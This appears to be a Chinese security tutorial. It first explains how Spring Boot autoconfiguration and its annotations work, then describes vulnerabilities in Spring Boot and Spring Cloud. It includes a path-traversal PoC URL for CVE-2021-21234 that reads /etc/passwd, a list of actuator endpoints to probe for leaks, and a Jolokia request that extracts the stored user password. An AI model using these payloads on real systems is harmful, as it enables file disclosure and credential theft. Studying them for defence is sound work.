 如果只是将xml配置换成javaconfig配置，其实减少不了配置的工作量。我们配置工作量的减少，还得感谢Spring Boot Starter，是它帮我们完成了大量的配置工作，我们只需完成很少一部分配置即可。  
  
springboot自动配置用到的注解 @SpringBootApplication、@SpringBootConfiguration、@ComponentScan @EnableAutoConfiguration、@AutoConfigrationPackage、@EnableConfigurationProperties外部配置文件导入注解 @PropertySource定时任务用到注解 @EnableScheduling、@Scheduled、@EnableAsync、@Async过滤器 @WebFilter、@ServletComponentScan拦截器监听器校验器 @Validated异常处理 @ControllerAdvice、@ExceptionHandler  
  
自动加载原理：SpringBoot 在启动时会去依赖的starter包中寻找 resources/META- INF/spring.factories文件，然后根据文件中配置的Jar包去扫描项目所依赖的Jar包，这类似于 Java 的 SPI 机制。注释：SPI的英文名称是Service Provider Interface，是Java 内置的服务发现机制。根据spring.factories配置加载AutoConfigure类。根据 @Conditional注解的条件，进行自动配置并将Bean注入Spring Context上下文当中  
# springboot-cve_2021_21234  
  
环境：vulfocus.cnSpring Boot是由Pivotal团队提供的全新框架，其设计目的是用来简化新Spring应用的初始搭建以及开发过程。该框架使用了特定的方式来进行配置，从而使开发人员不再需要定义样板化的配置。通过这种方式，Spring Boot致力于在蓬勃发展的快速应用开发领域(rapid application development)成为领导者。  
  
存在文件包含漏洞漏洞Poc/manage/log/view?filename=/etc/passwd&base=../../../../../../../../../../修复方案：升级到 0.2.13  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hlf1RcNVxU1jP7rWjRs56yy2ubF3e91nt4amCjcRibqwkN6OsRFfRFcdg/640?wx_fmt=png&from=appmsg "null")  
## SpringCloud  
  
Spring Cloud是基于 Spring Boot 来进行构建服务，并提供如配置管理、服务注册与发现、智能路由等常见功能的帮助快速开发分布式系统的系列框架的有序集合。参考大师傅的一张图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HloeVkIQg0v8ic1dBO7IQYYgjN1P2qZQ3w6sR4ooiakGhHdg6l8PT803EA/640?wx_fmt=png&from=appmsg "null")  
### 信息泄露漏洞  
  
此漏洞主要就是一些路由地址和接口的信息泄露，验证路由如下利用工具springscan 扫描  
```
/v2/api-docs
/swagger-ui.html
/env

//获取参数信息
/mappings
/metrics
/beans
/configprops
/actuator/metrics
/actuator/mappings
/actuator/beans
/actuator/configprops
```  
### 敏感信息明文获取  
  
如果说目标网站存在一些接口依赖 jolokia-cor如/jolokia、/actuator/jolokia  
- • **调用 org.springframework.boot Mbean**  
  
实际上是调用org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty方法poc  
```
//spring 1.x 版本

markup
POST /jolokia
Content-Type: application/json

{"mbean":"org.springframework.boot:name=SpringApplication,type=Admin","operation":"getProperty","type":"EXEC","arguments":["security.user.password"]}

//spring 2.x 版本

markup
POST /actuator/jolokia
```